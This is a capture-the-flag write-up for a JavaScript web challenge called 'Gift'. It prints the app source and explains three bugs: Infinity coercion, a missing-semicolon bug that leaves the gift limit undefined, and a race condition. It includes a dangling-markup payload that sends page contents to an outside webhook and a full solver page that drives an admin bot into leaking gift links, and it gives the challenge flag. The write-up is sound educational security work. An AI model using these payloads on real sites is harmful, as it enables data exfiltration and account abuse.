





## Gift - Web (by @BrownieInMotion)



This was an interesting challenge and exploration into Javascript's weird inner mechanics, particularly [Automatic Semicolon Insertion](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Lexical_grammar#automatic_semicolon_insertion). I did not manage to solve it during the CTF but I definitely learnt new things while attempting this for several hours.

### Description/Source

```js
// index.js
const crypto = require('crypto')
const fs = require('fs')

const logger = (data) => fs.appendFile('debug', data, () => {})

const express = require('express')
const app = express()

app.use(express.static('static'))

app.use('*', (req, _res, next) => {
    req.token = req.headers['cookie']?.split('; ')[0]?.split('=')[1]
    req.user = users.get(req.token)
    next()
})

app.post('/api/*', async (req, _res, next) => {
    const data = []
    req.on('data', [].push.bind(data))
    await new Promise((res) => req.on('end', res))
    try {
        req.body = JSON.parse(Buffer.concat(data).toString())
    } catch {
        req.body = {}
    }
    next()
})

const users = new Map()
const gifts = new Map()
const names = new Set()

const createHex = () => crypto.randomBytes(16).toString('hex')

const createUser = (name, balance) => {
    const id = createHex()
    name = (name ?? '').toString()
    if (name === '') { return void 0 }
    if (names.has(name)) { return void 1 }

    // name is valid and not taken, so create the user
    [console.log, logger]?.[process.env.LOG]?.('created user')

    users.set(id, { name, balance })
    names.add(name)
    return id
}

const createGift = (userToken, amount) => {
    const public = createHex()
    const private = createHex()

    if (!users.has(userToken)) { return void 0 }
    if (amount < 0) { return void 1 }
    if (isNaN(amount)) { return void 2 }

    const data = {}

    // user associated with gift
    data.user = userToken
    // gift amount
    data.amount = amount
    // token for modifying gift data
    data.private = private
    // default gift usage limit of 0
    data.limit = 0

    // token is correct and amount is positive, so create the gift
    [console.log, logger]?.[process.env.LOG]?.('created gift')

    gifts.set(public, data)

    return { public, private }
}

app.post('/api/login', (req, res) => {
    const balance = req.body.admin === process.env.ADMIN ? Infinity : 100
    const id = createUser(req.body.name, balance)
    if (id) {
        res.set('set-cookie', `token=${id}; path=/; max-age=31536000`)
        return res.json({ id })
    }
    res.status(400).json({ error: 'invalid name' })
})

app.get('/api/info', (req, res) => {
    if (req.user) { return res.json(req.user) }
    res.status(401).json({ error: 'not logged in' })
})

app.post('/api/config/:public', (req, res) => {
    const gift = gifts.get(req.params.public)
    if (!gift) { return res.status(404).json({ error: 'not found' }) }
    if (gift.private !== req.body.private) {
        return res.status(401).json({ error: 'unauthorized' })
    }

    const limit = +req.body.limit
    if (limit < 0) { return res.status(400).json({ error: 'invalid limit' }) }

    // limit is valid
    [console.log, logger]?.[process.env.LOG]?.('set gift limit')

    gift.limit = limit

    res.json({})
})

const render = async (file, data) => {
    const filename = `views/${file}.html`
    const content = await fs.promises.readFile(filename, 'utf8')
    return data
        ? content.replace(
            '<data>',
            JSON.stringify(data).replaceAll('"', '&quot;')
        )
        : content
}

app.get('/login', async (req, res) => {
    if (req.user) { return res.redirect('/') }
    res.send(await render('login'))
})

app.get('/logout', async (_req, res) => {
    res.set('set-cookie', `token=; path=/; max-age=0`)
    res.redirect('/login')
})

app.get('*', (req, res, next) => {
    res.set(
        'content-security-policy', [
            'connect-src \'self\'',
            'default-src \'none\'',
            'style-src \'self\'',
            'script-src \'self\'',
        ].join('; ')
    )
    if (!req.user) { return res.redirect('/login') }
    next()
})

app.get('/', async (_req, res) => {
    res.send(await render('index'))
})

app.get('/create/:amount', async (req, res) => {
    const data = createGift(req.token, +req.params.amount)
    res.send(await render('create', data ?? { error: 'failed' }))
})

app.get('/claim/:public', (req, res) => {
    const gift = gifts.get(req.params.public)

    if (!gift) { return res.redirect('/') }
    if (gift.limit < 1) { return res.redirect('/') }

    const target = users.get(gift.user)
    if (target.balance < gift.amount) { return res.redirect('/') }

    // gift is valid, so claim it
    [console.log, logger]?.[process.env.LOG]?.('claimed gift')

    gift.limit -= 1
    target.balance -= gift.amount
    req.user.balance += gift.amount

    res.redirect('/')
})

app.get('/flag', async (req, res) => {
    if (req.user.balance >= Infinity) res.sendFile('flag.txt', { root: '.' })
    else res.type('text/plain').send('not enough balance...')
})

app.listen(3000, () => (
    [console.log, logger]?.[process.env.LOG]?.('listening on 3000')
))
```

### Source Code Analysis 

There is quite a lot going on this code, so we try to summarize the api endpoints
* `/api/login`: checks if username exists, if it does not, initialize a user with a starting balance of `$100` and a cryptographically secure 16 byte id
* `/api/info`: returns `user` info, i.e. name and id
* `/create/:amount`: creates a `Gift` object with a public and private key
    * checks to make sure that a valid user is calling this function
    * checks that the amount is a valid  number $\ge 0$
    * creates the `Gift` object with a default gift usage of limit of 0 (we'll cover this soon)
* `/api/config/:public`: checks to make sure that the `Gift` private key matches, and updates the limit appropriately
* `/claim/:public`: claims the `Gift` object
    * checks to make sure that the gifter has sufficient balance
    * checks to make sure that the gift's limit has not been exhausted
    * updates balances
* `/claim/flag`: objective! You need a balance of `Infinity` to get the flag though....

#### Creating Infinity

```js
app.get('/create/:amount', async (req, res) => {
    const data = createGift(req.token, +req.params.amount)
    res.send(await render('create', data ?? { error: 'failed' }))
})
```

We can see that the `amount` passed as a GET parameter is converted to an integer, which gives some interesting behavior in javascript
```js
> + "10"
10
> + "a"
NaN
> + "Infinity"
Infinity
> + "1e9"
1000000000
> + "-1e-9"
-1e-9
```

We can actually create the `Infinity` number in Javascript, or even send a gift with amount `Infinity` using the link `https://gift.mc.ax/create/Infinity`.

The path to exploit is then to somehow get the admin bot (which is the only account with `Infinity` balance) to create this gift, leak the `gift` link somehow, and for our own account to claim it.

However, the next problem is to be able to leak out the admin's public key for the gift.

#### Dangling markup

After logging in, we can see that our `name` is reflected onto the page.


Since there is a strict CSP policy, we cannot use XSS here but we can leak information on the page using dangling markup. More about dangling markup can be read [here](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)

```js
app.get('*', (req, res, next) => {
    res.set(
        'content-security-policy', [
            'connect-src \'self\'',
            'default-src \'none\'',
            'style-src \'self\'',
            'script-src \'self\'',
        ].join('; ')
    )
    if (!req.user) { return res.redirect('/login') }
    next()
})
```

If we key in a name as 
```
abc <meta http-equiv="refresh" content="0;https://asdfasdfasdf.free.beeceptor.com?content=
```

It will grab everything on the html until the next `"` is found. The contents of the page will be sent to our web hook (i.e. beeceptor). For example



If we are able to do this on a `/create/Infinity` page, we will be able to get the gift link.

#### Automatic Semicolon Insertion

There's a very subtle bug in the `createGift` function due to missing semicolons.

```js
data.limit = 0

    // token is correct and amount is positive, so create the gift
    [console.log, logger]?.[process.env.LOG]?.('created gift')
```

Typically, semicolons will be inserted appropriately into your code during lexical analysis, but there are a few cases where this doesn't happen. If we reference MDN's documentation, we can see


This will mean that the line of code above will be reinterpreted as 

```js
data.limit = 0[console.log, logger]?.[process.env.LOG]?.('created gift') // undefined
```

Becuase the gift limit will be initially `undefined`, and the only check when trying to claim gift is 

```js
if (gift.limit < 1) { return res.redirect('/') }
```

We can bypass this check and immediately claim any gift because

```js
> undefined < 1
false
```

### Race Condition

When creating a gift, on the frontend, we can see 2 Javascript files that are loaded.




This is the `script.js` file 
```js
void (async () => {
    await load

    const counter = document.querySelector('#count')
    const set = async (value) => {
        const response = await request('POST', `/api/config/${data.public}`, {
            limit: value,
            private: data.private,
        })
        if (response) counter.innerHTML = value
    }
    const update = (delta) => set(+counter.innerHTML + delta)

    set(0)

    document.querySelector('#up').addEventListener('click', () => update(1))
    document.querySelector('#down').addEventListener('click', () => update(-1))
})()
```

which will `await` the `load` function in `populate.js` here

```js
const data = JSON.parse(
    document.querySelector('meta[name=data]')?.content ?? '{}'
)

const load = (async () => {
    template({
        ...await request('GET', '/api/info'),
        gift: data.public,
        origin,
    })
})()
```


On page load, it will make a call to `/api/info`, and will immediately try to call `set(0)`. This should have also been a hint, because *technically* if the default value of the limit was 0, there would be no need to set it to 0.

So we can try to do a race condition, before the admin can load its own profile and set the actual gift limit to 0, we want to redirect to our server with the gift link.

### Game plan
Now the path to exploit is roughly clear

1. Make the admin create multiple `/create/Infinity` gifts
2. Before the page loads `/api/info` and sets the gift limit to 0, send a request containing the gift link to our server using dangling markup

> To help with the race condition, we can insert a `<base>` tag which will cause the `/api/info` request to fail because it modifies the base url with its `href` attribute. 

3. Claim on any user and read the flag

### Solver

```html
<form id="form" action="https://gift.mc.ax/api/login" method="POST" enctype="text/plain">
    <input id="ip" name='' value='"}' />
</form>

<script>
    const url = new URL(location.href);
    url.searchParams.append("rand", String(Math.random()));
    const dangleMarkup = `<base href="https://abc.com"><meta http-equiv="refresh" content="0; url=${url.toString()}`
    if (url.searchParams.has("ready")) {
        let html =  JSON.stringify({name: dangleMarkup});
        let name = html.substring(0, html.length - 2);
        document.getElementById("ip").name = name;
        document.getElementById("form").submit();
    } else {
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open(`${location.href}?ready=true`);
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
    }
</script>
```

Launch this script on your `localhost:PORT` and run `ngrok http PORT`. Then submit your `ngrok` url to the admin bot. On your `ngrok` dashboard, you should see this response. If not, try again a few times to succeed in the profile race condition.



Create any new account and claim your infinite gift and get the flag!

### Flag

```bash
dice{same_old_funny_javascript_f05f3076f6070f3d}
```

### References

* Heavily referenced from @deltaclock's solution in the DiceCTF 2023 Discord.


